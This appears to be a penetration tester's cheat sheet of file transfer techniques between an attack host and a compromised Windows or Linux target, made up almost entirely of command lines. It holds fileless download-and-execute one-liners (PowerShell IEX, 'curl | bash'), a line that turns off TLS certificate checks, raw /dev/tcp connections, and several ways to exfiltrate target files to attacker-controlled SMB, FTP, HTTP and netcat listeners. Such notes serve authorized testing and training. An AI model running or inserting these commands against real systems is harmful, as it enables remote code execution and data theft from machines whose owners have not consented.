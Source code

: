 # File Transfer Methods

## Windows

### Download Files on Target

- Base64 Encode and Decode

```shell
# Attack box
cat filename |base64 -w 0;echo
# Target Windows host
[IO.File]::WriteAllBytes("Output_file", [Convert]::FromBase64String("base64_string"))
```

- PowerShell DownloadFile Method

```shell
# File Download
(New-Object Net.WebClient).DownloadFile('<Target_File_URL>','<Output_file>')
(New-Object Net.WebClient).DownloadFileAsync('<Target_File_URL>','<Output_file>')

# Fileless Download
IEX (New-Object Net.WebClient).DownloadString('<Target_File_URL>')
(New-Object Net.WebClient).DownloadString('<Target_File_URL>') | IEX
Invoke-WebRequest <Target_File_URL> -OutFile <Output_file>

# Response content cannot be parsed because the Internet Explorer
Invoke-WebRequest <Target_File_URL> -UseBasicParsing | IEX
# In case of SSL/TLS error
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

- SMB Downloads

```shell
# Create SMB server on attack host
sudo impacket-smbserver <share_name> -smb2support <folder_path>
sudo impacket-smbserver <share_name> -smb2support <folder_path> -user test -password test

# Download file from attacker SMB server
copy \\<attacker_ip>\<share_name>\<filename>
net use n: \\<attacker_ip>\<share_name> /user:test test
```

- FTP Downloads

```shell
# Setup on attack host
python3 -m venv venv
pip3 install pyftpdlib
python3 -m pyftpdlib --port 21

# Download file on target host
(New-Object Net.WebClient).DownloadFile('ftp://<attacker_ip>/<filename>', 'output_file')
```

### Upload Files to Attack Host

- Base64 Encode and Decode

```shell
# Encode file on target host
[Convert]::ToBase64String((Get-Content -path "<file_path>" -Encoding byte))

# Decode file attack host
echo <base64_string> | base64 -d > output_file
```

- Powershell web uploads

```shell
# Setup web server on attack host
python3 -m venv venv
pip3 install uploadserver
python3 -m uploadserver

# Upload file to web server from powershell
Invoke-FileUpload -Uri <attacker_ip>/upload -File file_path
```

- Base64 Encoded web upload

```shell
# Start listening on attack host
nc -nvlp <port>

# Send base64 string through Powershell 
$b64 = [System.convert]::ToBase64String((Get-Content -Path <file_path> -Encoding Byte))
Invoke-WebRequest -Uri <attacker_ip> -Method POST -Body $b64
```

- SMB Upload

```shell
# Setup SMB server on attack host
python3 -m venv venv
pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

# Upload file to SMB share
copy <filepath> \\<attacker_ip>\<share_folder>\
```

- FTP Upload

```shell
# Setup server on attack host
python3 -m venv venv
sudo python3 -m pyftpdlib --port 21 --write

# Upload file on FTP server
(New-Object Net.WebClient).UploadFile('ftp://<attcker_ip>/ftp-hosts', '<filepath>')
```


## Linux

### Download Files on Target

- Base64 Encode and decode

```shell
# Base64 encode
cat <filename> |base64 -w 0;echo
# Base64 decode
echo -n 'base64_string' | base64 -d > output_file
```

- Web Downloads

```shell
# Start web server on Attack host
python3 -m http.server

# Download files
wget <url> -O output_file
curl -o output_file <url>

# Fileless download
curl <url> | bash
wget -qO- <url> | python3
```

- Download with bash

```shell
# Start web server on attack host
python3 -m http.server <port>

# Connect to server
exec 3<>/dev/tcp/<attacker_ip>/<port>
# Send request to download file
echo -e "GET /<filename> HTTP/1.1\n\n">&3
# Write the content in file
cat <&3 > <filename>
```

- SCP Download

```shell
scp <username>@<host_ip>:<file_path> output_file 
```


### Upload Files on Attack Host

- Web Upload

```shell
# Install dependencies on attack host
python3 -m venv venv
python3 -m pip install --user uploadserver
# create self signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# Start web server on attack host
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file(s) from target
curl -X POST https://<attacker_ip>/upload -F 'files=@file1_path' -F 'files=@file2_path' --insecure
```

- Starting a web server on victim and use curl to download files on attack host

```shell
python3 -m http.server
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
```

- File Upload using SCP

```shell
# Send files on attack host using scp
scp <file_path> <username>@<attacker_ip>:<output_file>

# Download file on attack host using scp
scp <username>@<target_ip>:<file_path> output_file 
```
